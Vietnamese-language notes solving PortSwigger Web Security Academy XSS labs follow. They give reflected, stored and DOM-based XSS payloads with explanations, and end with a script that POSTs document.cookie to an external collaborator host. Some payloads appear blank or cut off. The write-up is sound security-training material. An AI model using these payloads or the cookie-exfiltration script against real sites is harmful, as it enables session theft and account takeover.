

1. https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded

2. https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded

3. DOM location.search: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink\
Dùng `document.write` để input đầu vào, payload: `"><svg onload=alert(1)>`

4. DOM location.search: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink\
Dùng `innerHTML` để input đầu vào, payload: ``

5. DOM location.search: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink\
Dùng `href` để gắn url cho `returnPath`:\
\


6. DOM location.hash: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event\
\
`<iframe src="https://0a4e0024041585a782ae9cac005d0018.web-security-academy.net/#" onload="this.src+=''"></iframe>`

7. Reflected XSS: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded\
Bị encode `<>` nên ta không tìm cách thoát ra tag mà sẽ thêm vào attribute:\
Payload: `"onmouseover="alert(1)`

8. Store XSS: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded\
Vì bị encode `"` nên ta không thoát `href` mà sẽ thay bằng 1 cách để thực hiện javascript ngay trên URL:\
Payload: `javascript:alert(1)`

9. Reflected XSS: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded\
\
Ta thấy input bị encode khi đưa vào HTML nhưng ta để ý nó lại đưa trực tiếp vào ` var searchTerms = 'abc';` nên ta tiêm thằng vào đây để thực hiện JS: `'; alert(1); '`

10. DOM XSS: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element\
Nhập ngẫu nhiên input ta thấy hiển thị input ở dưới:\
\
Đọc code ta thấy, nếu chọn trong các store có sẵn nó sẽ hiển thị, hoặc cũng có thể nhập store đầu vào:\
\
Payload: `</select>`

11. DOM XSS: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression\
Ở đây ta không thể dùng `<>` nên ta nghĩ đến 1 phương án khác, khi dùng 1 framework sẽ có 1 cách thực thi Javascript khác nhau, ở AngularJS có `ng-app` và ta sẽ dùng payload: `{{$on.constructor('alert(1)')()}}`

12. Reflected XSS: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected\
Đọc code ta thấy file `resources/js/searchResults.js` dùng eval để xử lí đầu vào search:\
\
Với input `"abc"` hàm đã xử lý trả về JSON và dùng `\` để thoát dấu ngoặc kép `"`:\
\
Nhưng lại không thoát dấu `\` nên ta có thể sử dụng payload: `\"-alert(1)}//`\


Giair thích: với dấu `"` hệ thống sẽ chèn `\` vào trước, và vì đầu vào ta có 1 dấu `\` nên 2 dấu `\\` cạnh nhau không dùng để loại bỏ `"` nữa nên đã có thể đóng được đối tượng search, từ đó ta thêm hàm `alert()` và rồi comment `//` đoạn cuối.

13. DOM XSS: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored\
Ở phần hiển thị các comment ta thấy file: `/resources/js/loadCommentsWithVulnerableEscapeHtml.js`\
\
File này dùng hàm `replace` để xóa các kí tự `<` và `>` nhưng lỗ hổng của hàm này là chỉ replace các kí tự đầu tiên được tìm kiếm nên ta có payload: `<>`

14. Reflected XSS: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked\


Lab: https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies\
```js
<script>
    fetch('https://ebty5bf18db9t8dai0aew74c83eu2lqa.oastify.com', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
    });
</script>
```


